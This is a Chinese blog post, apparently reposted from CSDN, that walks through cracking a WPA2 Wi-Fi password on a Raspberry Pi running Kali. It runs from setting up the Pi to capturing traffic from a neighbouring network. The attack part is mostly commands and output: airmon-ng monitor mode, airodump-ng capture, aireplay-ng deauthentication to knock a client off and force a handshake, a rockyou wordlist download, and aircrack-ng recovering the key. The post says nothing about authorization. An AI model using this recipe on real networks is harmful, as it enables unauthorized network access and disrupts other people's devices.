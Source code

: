 ```yaml
---
title: 获取WIFI握手包
date: 2018-06-14 00:14:00
tags:
- RaspberryPi
---
```



#### 1. 说明
&emsp;树莓派3B已经成为arm主流开发板，不仅有成熟完善的raspbian系统，还可以安装Ubuntu、Centos、Kali系统，因此，树莓派可以做各种各样的事，接下来，我就介绍下树莓派破解Wi-Fi密码的过程。
 
<!--more-->

#### 2.安装kali
&emsp;因为Kali是一个专门的网络渗透系统，自带很多工具，所以就采用直接安装Kali来使用airmon-ng工具。
下载地址：https://www.offensive-security.com/kali-linux-arm-images/

> 下载下来是kali-2017.3-rpi3-nexmon.img.xz文件。  
> 在Windows下直接使用解压缩软件解压。   
> 在Linux下用 xz -d kali-2017.3-rpi3-nexmon.img.xz 解压。  
> 得到的img文件就可以直接使用了，将其写入TF卡即可。


#### 3.升级Kali
> 将树莓派插上显示屏和鼠标键盘。  
> 用户：root  
> 密码：toor  

``` bash
# 打开Terminal，执行
echo "deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free" > /etc/apt/sources.list
apt update && apt upgrade -y

# 安装完整版kali
# apt install kali-linux-all

# 安装Extend Filesystem（可选）
# apt install gparted -y

# 安装xrdp [不能插上显示屏使用]
# apt install xrdp
# 开机自启
# update-rc.d xrdp enable
```
---

#### 4.开始破解

> 破解过程如下：
> - 找到设备iwconfig并开启监控
> - 查看附近的Wi-Fi，并选择一个
> - 攻击并开始抓包，得到handshake
> - 下载字典，开始破解

``` bash
# 查看得到网卡名为wlan0：
iwconfig
# 内容如下：
eth0      no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  ...

# 找到Wi-Fi代号为wlan0，接着启动monitor模式：
airmon-ng start wlan0

# 查看附近的无线网络
airodump-ng wlan0mon
# 内容如下：
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                             

 F2:B4:29:E5:1C:74   -1        0       20    0   6  -1   OPN              <length:  0>                                      
 94:77:2B:47:92:1C  -74      119     1842   49   7  54e  WPA2 CCMP   PSK  HUAWEI-RF4BXM                                  
 14:75:90:DB:90:91  -81       53        0    0  11  54e. WPA2 CCMP   PSK  TP-LINK_DB9091    

# 选择一个Wi-Fi，复制BSSID，记下CH信道，组合如下命令开始攻击抓包
# [演示选择TP-Link：airodump-ng wlan0mon --bssid 复制的BSSID -c CH信道 -w 保存名]
airodump-ng wlan0mon --bssid 14:75:90:DB:90:91 -c 11 -w wificrack

# 可以看到，有一台设备连接到该路由WiFi，但此时没有设备连入，故抓不到完整4步握手包。
# 若抓不到4步握手，则通过以下命令断开设备与WiFi的连接，使其重新建立连接从而可以抓取四步握手信息：
# 新开一个Terminal窗口：[参数：攻击2次，路由ssid和设备Mac地址]
aireplay-ng -0 2 -a 14:75:90:DB:90:91 -c 54:DC:1D:27:0D:50 wlan0mon

# 原窗口得到握手包：内容如下：
 CH 11 ][ Elapsed: 5 mins ][ 2018-01-29 05:52 ][ WPA handshake: 14:75:90:DB:90:91                                           

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                         

 14:75:90:DB:90:91  -71  93     3136       43    0  11  54e. WPA2 CCMP   PSK  TP-LINK_DB9091                                

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                  

 14:75:90:DB:90:91  54:DC:1D:27:0D:50  -39    0e- 0e     0       44  TP-LINK_DB9091 

通过ls wificrack*命令查看抓到的信息保存的文件（多的wpa包是之前做测试保存下来的）：

这里看最新的那个即wifi-04即可，可以看到总共有4个。

# 后面使用Kali Linux中默认存在的字典，目录[需要使用命令来解压]
/usr/share/wordlists/rockyou.txt.zip
# 这里顺便记录一下Kali中几个常用的字典文件的位置：
/usr/share/john/password.lst
/usr/share/wfuzz/wordlist
/usr/share/ wordlists

# 如果没有该文件，就需要下载：
wget http://scrapmaker.com/data/wordlists/dictionaries/rockyou.txt

# 破解：[rockyou.txt是字典、wifi-01.cap是抓包]
aircrack-ng -w rockyou.txt wificrack-01.cap
# 结果如下：[密码为：12345678]
                                 Aircrack-ng 1.2 rc4                                                                        

      [00:00:00] 4/4 keys tested (31.56 k/s)                                                                                

      Time left: 0 seconds                                     100.00%                                                      

                           KEY FOUND! [ 12345678 ]                                                                          
# 关闭wlan0无线网卡monitor mode
airmon-ng stop wlan0mon
```

注:本文转自[树莓派3B+ 破解Wi-Fi密码](https://blog.csdn.net/kxwinxp/article/details/79187472),亲测有效^-^ !!!


 

